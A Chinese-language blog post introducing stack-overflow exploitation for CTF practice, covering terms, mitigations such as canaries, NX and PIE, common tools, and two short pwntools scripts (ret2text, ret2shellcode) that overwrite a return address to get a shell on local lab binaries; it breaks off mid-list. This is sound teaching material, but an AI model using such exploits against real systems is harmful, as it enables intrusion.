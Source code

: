 ```yaml
---
layout: post
title: 栈溢出基础
subtitle: "基础内容"
author: "bo"
header-img: "img/post-bg-halting.jpg"
header-mask: 0.3
---
```

### 基础知识和基本工具
#### 1. 基本名词
>    1. **poc** (proof of concept)：漏洞概念证明。
>    2. **vul** (vulnerable) ：漏洞
>    3. **exp** (exploit)：漏洞利用
>    4. **ELF** (Executable and Linkable Format)： 可执行和可链接的格式，它是关于可执行文件，对象代码，共享库和内核导出的一种公共标准文件，由三个部分组成，program head table，section head table，data referred to above;
>5. **PIC**(position-independent code)：位置无关代码。PIC是可以在主存中不同位置执行的目标代码。PIC经常被用在共享库中，这样就能将相同的库代码为每个程序映射到一个位置，不用担心覆盖掉其他程序或共享库。
   >6. **PIE**(position-independent executable)位置无关可执行程序。它有一个显著的优点，那就是当程序加载时，所有PIE二进制文件以及它所有的依赖都会加载到虚拟内存空间中的随机位置（随机地址），可以有效提高他人通过绝对地址实施"return-to-libc"安全攻击的难度。
   >7. **GOT**(global offset table):全局偏移量表
   >8. PLT(procedure linkage table):过程链接表;
 >9. 栈溢出四种方式  
     > 1.**shellcode**  
     > 2.**return** **into**   **libc**  
     > 3.**return** **oriented**  **programming**  
     > 4.**Hijack Got**  
#### 2. 基本防御机制
   1. **Canary**:
   往栈溢出高危区域尾部插入一个值，来判断溢出是否发生。
   
   >可以在 GCC 中使用以下参数设置 Canary:

```
-fstack-protector 启用保护，不过只为局部变量中含有数组的函数插入保护
-fstack-protector-all 启用保护，为所有函数插入保护
-fstack-protector-strong
-fstack-protector-explicit 只对有明确stack_protect attribute的函数开启保护
-fno-stack-protector 禁用保护.
```
其stack结构大致如下
```
High
        Address |                 |
                +-----------------+
                | args            |
                +-----------------+
                | return address  |
                +-----------------+
        rbp =>  | old ebp         |
                +-----------------+
      rbp-8 =>  | canary value    |
                +-----------------+
                | 局部变量        |
        Low     |                 |
        Address
```

具体实现及绕过方式，点击查看[Canary](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/mitigation/Canary/)

 其他安全机制[Windows和linux内存防护机制](https://blog.csdn.net/x_nirvana/article/details/61420056)
#### 3. 常用工具
   1. gdb ： Linux上的基本调试工具。
   2. gdb-peda：用于加强gdb功能，gef和gdbinit与其类似。
   3. pwntools：是一个ctf框架和漏洞利用开发库。
   4. checksec 一个脚本软件，用于检查可执行文件属性.   
      1. RELRO：RELRO会有Partial RELRO和FULL RELRO，如果开启FULL RELRO，意味着我们无法修改got表 
      2. Stack：如果栈中开启Canary found，那么就不能用直接用溢出的方法覆盖栈中返回地址，而且要通过改写指针与局部变量、leak canary、overwrite canary的方法来绕过 
      3. NX：NX enabled如果这个保护开启就是意味着栈中数据没有执行权限，以前的经常用的call esp或者jmp esp的方法就不能使用，但是可以利用rop这种方法绕过 
      4. PIE：PIE enabled如果程序开启这个地址随机化选项就意味着程序每次运行的时候地址都会变化，而如果没有开PIE的话那么No PIE (0x400000)，括号内的数据就是程序的基地址 
      5. FORTIFY：FORTIFY_SOURCE机制对格式化字符串有两个限制(1)包含%n的格式化字符串不能位于程序内存中的可写地址。(2)当使用位置参数时，必须使用范围内的所有参数。所以如果要使用%7$x，你必须同时使用1,2,3,4,5和6。
   5. objdump和readelf:可以很快的知道elf文件关键信息；   
   6. ida pro :反编译工具；   
   7. ROPgadget: 强大的的rop利用工具
   8. one_gadget:可以快速的寻找libc中的调用exec(‘bin/sh’)的位置 ;
   9.  libc-database： 可以通过泄露的libc的某个函数地址查出远程系统是用的哪个libc版本  
   

#### 4. 简单实战入门

1. 首先是一个签到题   
    1. 用gdb打开，然后 检查他保护
图1
     2. 之后用idb打开。
图2
发现中间有一个gets函数，没有限制长度，所以去文件里面，查找，发现一个函数里面调用了system函数，那就记录这个地址。
图3
     3. 之后再在gets函数这里下断点，计算出esp和ebp之间的距离再加上4，就是需要覆盖的返回地址了。结果是112
     4. 最后写出 exploit 


```python
from pwn import *
shell = process('./ret2text')
target = 0x804863a
payload = 'A'*112 + p32(target)
shell.sendline(payload)
shell.interactive()
```
2. ret2shellcode
   这个略过，注意 vmmap gdb插件命令，能查看相应段的执行权限，直接上代码
```python
from pwn import *
shell = process('./ret2shellcode')
target = 0x0804A080
payload = asm(shellcraft.sh()).ljust(112,'A') + p32(target)
shell.sendline(payload)
shell.interactive()
```
3. 